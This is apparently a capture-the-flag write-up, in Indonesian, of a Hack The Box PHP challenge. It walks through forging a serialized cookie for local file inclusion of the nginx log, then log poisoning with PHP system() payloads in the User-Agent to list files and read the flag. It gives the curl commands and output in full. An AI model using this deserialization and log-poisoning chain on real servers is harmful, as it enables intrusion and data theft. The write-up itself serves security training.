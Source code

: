 # Toxic

Target	: 188.166.175.58
Port	: 31842

Kita download file yang disediakan dan unzip file tersebut. File yang menarik adalah file `index.php` yang berisi
```php
<?php
...
...
if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```

Dimana file tersebut akan melakukan generate cookie. Jika kita lihat di devtools browser, cookie yang kita dapat adalah `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9` yang mana jika di decode hasilnya adalah `O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}`. Dari hal ini, kita dapat melakukan LFI dengan mengganti `/www/index.html` dengan nama file lainnya.

Kita dapat mencoba untuk menampilkan log dari web server yang digunakan. Jika kita cek pada bagian response header, web server yang digunakan adalah **`nginx`**. Jadi disini kita akan langsung coba untuk mengganti file direktori menjadi direktori log dari `nginx`. Dari string ini `O:9:"PageModel":1:{s:4:"file";s:15:"/var/log/nginx/access.log";}` kita encode ke base64 yang mana akan menjadi `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQo=`. Kita dapat menggunakan `curl` untuk mengirimkan cookie yang baru ini
```bash
curl http://Target:Port --cookie 'PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQo='
...
10.244.0.61 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/1
15.0"                                                                                                     
10.244.0.61 - 200 "GET /static/css/production.css HTTP/1.1" "http://188.166.175.58:31842/" "Mozilla/5.0 (X
11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"                                                 
10.244.0.61 - 200 "GET /static/js/production.js HTTP/1.1" "http://188.166.175.58:31842/" "Mozilla/5.0 (X11
; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"                                                   
10.244.0.61 - 200 "GET /static/images/instagram.svg HTTP/1.1" "http://188.166.175.58:31842/" "Mozilla/5.0 
(X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"                                               
10.244.0.61 - 200 "GET /static/images/youtube.svg HTTP/1.1" "http://188.166.175.58:31842/" "Mozilla/5.0 (X
...
...
```
Dan ternyata bisa. Kita dapat coba untuk melakukan **log poisoning** dengan mengganti User-Agent karena dari log diatas, dapat dilihat bahwa User-Agent kita tercatat di log tersebut. Karena itu kita melakukan poisoning pada log dengan memanfaatkan User-Agent dengan menggantinya dengan php code sehingga nantinya akan tercatat di php log, dan nantinya setiap server melakukan load file log ini, nantinya server akan run code tersebut dan hasilnya akan terpampang di hasil render.
```bash
curl http://Target:Port --cookie 'PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQo=' -A "<?php system('ls /'); ?>"
...
10.244.0.61 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/1
15.0"                                                                                                     
10.244.0.61 - 200 "GET /static/css/production.css HTTP/1.1" "http://188.166.175.58:31842/" "Mozilla/5.0 (X
11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"
...
...
...
curl http://Target:Port --cookie 'PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQo='
...
10.244.0.61 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/1
15.0"                                                                                                     
10.244.0.61 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/1
15.0"                                                                                                     
10.244.0.61 - 200 "GET /index.html HTTP/1.1" "-" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101
 Firefox/115.0"                                                                                           
10.244.0.61 - 200 "GET / HTTP/1.1" "-" "curl/8.5.0"                                                       
10.244.0.61 - 200 "GET / HTTP/1.1" "-" "bin                                                               
dev
entrypoint.sh
etc
flag_VHXbU
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
www
...
```
Dapat dilihat diatas, kita perlu run 2x dimana yang pertama adalah untuk log poisoning dengan listing direktori `/` dan yang kedua adalah untuk melihat isi log setelah kita melakukan log poisoning. Hasilnya, kita mendapat file flag di `/flag_VHXbU`. Selanjutnya kita dapat menampilkannya dengan cara yang sama
```bash
curl http://Target:Port --cookie 'PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQo=' -A "<?php system('cat /flag_VHXbU'); ?>"

10.244.0.61 - 200 "GET / HTTP/1.1" "-" "curl/8.5.0" 
10.244.0.61 - 200 "GET / HTTP/1.1" "-" "curl/8.5.0" 
10.244.0.61 - 200 "GET / HTTP/1.1" "-" "curl/8.5.0" 
...
...
...
curl http://Target:Port --cookie 'PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQo='

10.244.0.61 - 200 "GET / HTTP/1.1" "-" "curl/8.5.0" 
10.244.0.61 - 200 "GET / HTTP/1.1" "-" "curl/8.5.0" 
10.244.0.61 - 200 "GET / HTTP/1.1" "-" "HTB{xxx}
"
...
```

